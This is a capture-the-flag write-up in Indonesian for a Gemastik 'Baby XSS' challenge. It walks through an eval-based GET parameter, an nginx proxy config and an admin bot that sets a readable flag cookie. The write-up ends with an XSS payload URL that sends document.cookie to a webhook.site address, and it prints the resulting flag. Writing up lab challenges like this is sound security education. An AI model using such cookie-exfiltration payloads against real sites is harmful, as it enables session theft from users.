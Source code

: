 #  Baby XSS

#Desc
> Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya:
> https://github.com/dimasma0305/CTF-XSS-BOT/
> Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

## About the Challenge
Diberikan sebuah url website yaitu `http://ctf.gemastik.id:9020/`

## How to solve?
Ini adalah tampilan websitenya.

![img1](imgs/1.png)

Pada laman web tidak tampak kasat mata apapun content nya. Tetapi ketika kita page source terdapat javascript yang mungkin akan membantu kita

![img2](imgs/2.png)

Pada script ini menerima input parameter x dengan GET request method. Oke artinya soal memberikan kita opetunjuk untuk send url berisikan payload xss karena ada eval func disana. 
Mari kita lihat proxy.conf pada repo github yang diberikan.

```
server {
    listen 80;
    absolute_redirect off;

    location /report/ {
        proxy_pass http://bot:3000/;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location / {
        root /var/www/html/;
        index index.html;
        try_files $uri $uri/ =404;
    }
}
```

Pada file proxy.conf diketahui terdapat route / sebagai home index dan untuk memanggil bot kita sertakan route /report/.
```
//bot.js
...snippet...
bot: async (urlToVisit) => {
    const context = await getContext()
    try {
        const page = await context.newPage();
        await context.addCookies([{
            name: "flag",
            httpOnly: false,
            value: CONFIG.APPFLAG,
            url: CONFIG.APPURL
        }]);

        console.log(`bot visiting ${urlToVisit}`);
        await page.goto(urlToVisit, {
            waitUntil: 'load',
            timeout: 10 * 1000
        });
        await sleep(15000);
...snippet...
```

Kita coba cek bot.js disini kita tahu bahwa bot.js akan menerima beberapa parameter yang sudah ditetapkan.

```
//bot.js
...snippet...
const CONFIG = {
    APPNAME: process.env['APPNAME'] || "Admin",
    APPURL: process.env['APPURL'] || "http://172.17.0.1",
    APPURLREGEX: process.env['APPURLREGEX'] || "^.*$",
    APPFLAG: process.env['APPFLAG'] || "dev{flag}",
    APPLIMITTIME: Number(process.env['APPLIMITTIME'] || "60"),
    APPLIMIT: Number(process.env['APPLIMIT'] || "5"),
    APPEXTENSIONS: (() => {
...snippet...
```
```
//docker-compose.yml
...snippet...
    environment:
      APPNAME: Admin
      APPURL: http://proxy/
      APPURLREGEX: ^http(|s)://.*$
      APPFLAG: dev{flag}
      APPLIMIT: 2
      APPLIMITTIME: 60
      USE_PROXY: 1
      DISPLAY: ${DISPLAY}
    networks:
...snippet...
```
Langsung saja kita berikan payloadnya
```
http://proxy/?x=new%20Image().src=%22https://webhook.site/xxx/?flag=%22%2Bdocument.cookie
```
![img3](imgs/3.png)

![img4](imgs/4.png)

Dan kita dapatkan flagnya.

```
gemastik{s3lamat_anda_m3ndap4tkan_XSS}
```
